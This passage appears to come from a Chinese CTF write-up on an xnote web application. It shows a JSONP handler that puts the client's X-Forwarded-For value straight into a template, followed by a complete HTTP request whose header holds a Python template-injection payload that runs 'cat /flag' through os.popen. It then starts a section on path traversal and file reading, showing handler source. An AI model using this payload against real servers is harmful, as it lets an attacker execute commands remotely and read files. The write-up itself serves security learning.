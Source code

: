 ```python
        yield web.ctx.env.get("REMOTE_ADDR")
        yield "\n"

class JsonpHandler:

    tpl = """
{{callback}}({
    real_ip: "{{real_ip}}"
});
    """

    def GET(self):
        callback = xutils.get_argument_str("callback", "callback")
        real_ip = get_real_ip()
        self.tpl = self.tpl.replace("{{real_ip}}", real_ip)
        return xtemplate.render_text(self.tpl, real_ip = real_ip, callback = callback)

xurls = (
    r"/api/getip", handler,
    r"/api/getip.jsonp", JsonpHandler,
)
```

构造如下。

```plaintext
GET /api/getip.jsonp HTTP/1.1  
Host: 10.103.24.2:1234  
Upgrade-Insecure-Requests: 1  
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/139.0.0.0 Safari/537.36  
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,_/_;q=0.8,application/signed-exchange;v=b3;q=0.7  
Accept-Encoding: gzip, deflate  
Accept-Language: zh-CN,zh;q=0.9  
X-Forwarded-For: {{[].__class__.__base__.__subclasses__()[189].__init__.__globals__['__builtins__']['__imp'+'ort__']('os').__dict__['pop'+'en']('cat /flag').read()}}
```

#### 路径穿越 & 任意文件读取漏洞

相关源码如下，这里也是需要鉴权的，但是可能有队伍绕过了鉴权，才能利用到这个漏洞。

```python
class ViewSourceHandler:

    def get_default_kw(self):
        kw = Storage()
        kw._show_footer = False
        return kw

    @xauth.login_required("admin")
    def GET(self, path=""):
        template_name = "code/page/code_edit.html"
        path = xutils.get_argument("path", "")
        key = xutils.get_argument("key", "")
        type = xutils.get_argument_str("type", "")
        readonly = False

        kw = self.get_default_kw()
        # 处理嵌入页面
        handle_embed(kw)
        # 处理参数
        handle_args(kw)

```